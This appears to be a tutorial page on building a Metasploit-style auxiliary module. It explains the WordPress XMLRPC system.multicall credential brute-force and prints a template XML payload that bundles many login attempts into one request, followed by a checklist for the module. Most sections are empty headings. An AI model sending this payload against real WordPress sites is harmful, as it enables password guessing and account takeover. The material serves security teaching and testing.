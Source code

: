 # Auxiliary module


## Scanner 

Scanner basic modules

- S

### Wordpress XMLRPC Massive Bruteforce
Wordpress CMS framework support XMLRPC service to interact with almost all functions in the framework. Some functions require authentication. The main issues lies in the you can authenticate many times within the same request. Wordpress accepts about 1788 lines of XML request which allows us to send tremendous number of login tries in a single request.

```
<?xml version="1.0"?>
<methodCall>
<methodName>system.multicall</methodName>
<params>
 <param><value><array><data>
 
 
  <value><struct>
  <member>
    <name>methodName</name>
    <value><string>wp.getUsersBlogs</string></value>
  </member>
  <member>
    <name>params</name><value><array><data>
     <value><array><data>
      <value><string>"USER #1"</string></value>
      <value><string>"PASS #1"</string></value>
     </data></array></value>
    </data></array></value>
  </member>
  .
  .
  ...Snippet...
  ..
  ..
  <value><struct>
  <member>
    <name>methodName</name>
    <value><string>wp.getUsersBlogs</string></value>
  </member>
  <member>
    <name>params</name><value><array><data>
     <value><array><data>
      <value><string>"USER #1"</string></value>
      <value><string>"PASS #N"</string></value>
     </data></array></value>
    </data></array></value>
  </member>
  
  
 </data></array></value></param>
</params>
</methodCall>
```
So from above 

#### What do we want?
- [ ] Create Auxiliary module
- [ ] Deal with Web Application 
- [ ] Deal with Wordpress 
- [ ] Describe The module
- [ ] Let people know we created this module
- [ ] Add references about the vulnerability that we exploit
- [ ] Options to set the target URI, port, user, pass list.
- [ ] Read username and password lists as arrays 
- [ ] Build/Generate XML file takes a user and iterate around the passwords
- [ ] Check if target is running wordpress 
- [ ] Check if target enabling RPC 
- [ ] Check if we got blocked
- [ ] Parsing the result and find which password is correct 

#### Wrapping up
The final module 

### DoS module 

### Server

